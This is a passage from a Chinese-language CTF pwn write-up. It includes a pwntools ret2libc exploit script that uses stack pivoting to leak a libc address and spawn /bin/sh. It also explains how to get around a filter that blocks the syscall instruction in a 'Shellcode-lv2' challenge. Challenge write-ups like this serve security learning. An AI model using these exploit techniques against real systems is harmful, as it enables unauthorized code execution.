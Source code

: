 ```
io.send(payload1)
payload2 =p64(pop_rdi) + p64(puts_got) + p64(puts_plt) +p64(read) + p64(bss-0x20) + p64(leave_ret)
io.send(payload2)
k = u64(io.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
print(hex(k))
libc_base = k - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + next(libc.search(b"/bin/sh\x00"))
payload3 = p64(ret)*3 + p64(pop_rdi) + p64(bin_addr)  + p64(sys_addr)
io.send(payload3)
io.interactive()
```

经过gdb调试，发现最后rsp在0x404800(我也不清楚为什么）,所以payload3需要填充3个ret ,所以多次栈迁移真的十分依赖gdb的调试。

#### [Week 3] Shellcode-lv2

从这题看出来我的shellcode编写能力实在差劲。。。

题目逻辑如下，输入的内容中不能包含\xf\x5也就是指令syscall。

首先先考虑这题如何做，看到题目开了沙箱，只能使用ORW，但是10字节肯定不够执行ORW，所以要先构造一次read读入shellcode，shellcode就存在之后的buf里继续执行

![logo](../images/19.png)

但是syscall被禁了，如何绕过呢？于是有以下方法：

1.构造一个0xf05(通过运算得出），并将其储存在寄存器中，最后call 这个寄存器。

2.利用mov byte ptr [addr],5将5写入buf之后的内存

3.使用int 0x80

由于第一次读入的数据太少了只有0x10，所以考虑用方法二，所以我们需要构造一个15字节长的shellcode，然后再单独把\x0f传进去，最后mov byte ptr [addr],5会将\x05也写进去达到攻击目的。
